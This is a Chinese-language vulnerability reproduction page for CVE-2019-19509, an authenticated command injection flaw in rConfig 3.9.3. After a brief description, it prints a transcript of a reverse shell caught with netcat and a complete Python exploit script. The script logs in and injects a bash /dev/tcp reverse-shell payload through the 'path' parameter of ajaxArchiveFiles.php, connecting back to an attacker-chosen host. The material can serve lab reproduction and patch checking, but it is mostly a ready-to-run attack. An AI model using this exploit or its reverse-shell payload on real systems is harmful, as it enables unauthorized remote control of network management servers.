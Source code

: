 （CVE-2019-19509）rConfig v3.9.3 后台远程命令执行漏洞
=====================================================

一、漏洞简介
------------

rConfig是一款开源的网络配置管理实用程序。 rConfig
3.9.3版本中存在安全漏洞，该漏洞源于程序没有进行过滤就直接将'path'参数传输到'exec'函数。远程攻击者可通过向ajaxArchiveFiles.php文件发送GET请求利用该漏洞执行系统命令。

二、漏洞影响
------------

rConfig v3.9.3

三、复现过程
------------

    python3 CVE-2019-19509.py https://192.168.43.34 admin root 192.168.43.245 8081
    # rconfig - CVE-2019-19509 - Web authenticated RCE
    # [+] Logged in successfully, triggering the payload...
    # [+] Check your listener !
    # ...
    # $ nc -nvlp 8081
    # listening on [any] 8081 ...
    # connect to [192.168.43.245] from (UNKNOWN) [192.168.43.34] 34458
    # bash: no job control in this shell
    # bash-4.2$ id
    # id
    # uid=48(apache) gid=48(apache) groups=48(apache)
    # bash-4.2$ 

> CVE-2019-19509.py

    #!/usr/bin/python3

    # Exploit Title: rConfig <= v3.9.3 Authenticated Remote Code Execution
    # Date: 07/11/2019
    # CVE-2019-19509
    # Exploit Author: vikingfr
    # Vendor Homepage: https://rconfig.com/ (see also : https://github.com/rconfig/rconfig)
    # Software Link : http://files.rconfig.com/downloads/scripts/centos7_install.sh
    # Version: tested v3.9.3
    # Tested on: Apache/2.4.6 (CentOS 7.7) OpenSSL/1.0.2k-fips PHP/7.2.24
    #
    # Notes : If you want to reproduce in your lab environment follow those links :
    # http://help.rconfig.com/gettingstarted/installation
    # then
    # http://help.rconfig.com/gettingstarted/postinstall

    import requests
    import sys
    import urllib.parse
    from requests.packages.urllib3.exceptions import InsecureRequestWarning
    requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

    print ("rconfig - CVE-2019-19509 - Web authenticated RCE")

    if len(sys.argv) != 6:
        print ("[+] Usage : ./rconfig_exploit.py https://target username password yourIP yourPort")
        exit()

    target = sys.argv[1]
    username = sys.argv[2]
    password = sys.argv[3]
    ip = sys.argv[4]
    port = sys.argv[5]
    payload = '''`bash -i>& /dev/tcp/{0}/{1} 0>&1`'''.format(ip, port)

    request = requests.session()

    login_info = {
        "user": username,
        "pass": password,
        "sublogin": 1
    }

    login_request = request.post(
        target+"/lib/crud/userprocess.php",
         login_info,
         verify=False,
         allow_redirects=True
     )

    dashboard_request = request.get(target+"/dashboard.php", allow_redirects=False)

    if dashboard_request.status_code == 200:
        print ("[+] Logged in successfully, triggering the payload...")
        encoded_request = target+"/lib/ajaxHandlers/ajaxArchiveFiles.php?path={0}&ext=random".format(urllib.parse.quote(payload))
        print ("[+] Check your listener !")
        exploit_req = request.get(encoded_request)

    elif dashboard_request.status_code == 302:
        print ("[-] Wrong credentials !")
        exit()
